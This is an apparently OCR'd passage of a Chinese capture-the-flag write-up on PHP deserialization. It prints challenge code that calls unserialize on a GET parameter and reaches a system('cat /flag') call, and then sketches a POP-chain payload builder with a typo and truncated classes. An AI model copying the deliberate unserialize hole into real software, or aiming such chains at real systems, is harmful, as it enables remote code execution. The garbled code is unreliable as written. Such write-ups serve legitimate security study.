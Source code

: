 ```php

    public function __wakeup() {
        echo "lalalla".$this->kw;   //3 __tostring-->re
        }

    public function __destruct() {
        echo "ALL Done!";
    }
}

class pwn {
    public $dusk=gods;    //dusk=gods
    public $over;
    public function __get($name) {     //找不可访问的对象 
        if($this->dusk != "gods"){
            echo "什么，你竟敢不认可?";
        }
        $this->over->getflag();    // 1 Misc 
    }
}

class Misc {
    public $nothing;
    public $flag;

    public function getflag() {
        eval("system('cat /flag');");      //0 目的地
    }
}

class Crypto {
    public function __wakeup() {
        echo "happy happy happy!";
    }

    public function getflag() {
        echo "you are over!";
    }
}
$ser = $_GET['ser'];   //触发get
unserialize($ser);
```

##### 构造pop链：

web中的__wakeup()->re中的chu0->pwn中的over-> Misc 中的 getflag()

于是加上以下代码并将定义duck的代码中duck的值直接修改为gods（省去后续修改步骤）

```php
$w = new web;
$r = new re;
$p = new pwn;
$m = new Misc;
$p->over = $m;
$r->chu0 = $p;
$p->over = $m;
echo serilize($w)
```
